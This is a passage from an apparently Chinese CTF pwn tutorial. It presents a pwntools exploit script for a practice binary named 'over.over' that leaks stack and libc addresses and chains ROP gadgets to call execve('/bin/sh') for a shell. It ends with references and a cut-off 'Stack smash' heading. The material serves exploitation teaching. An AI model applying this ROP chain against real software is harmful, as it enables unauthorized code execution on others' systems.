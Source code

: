 #### exp
```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

总的来说这种方法跟 stack pivot 差别并不是很大。

### 参考阅读

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理
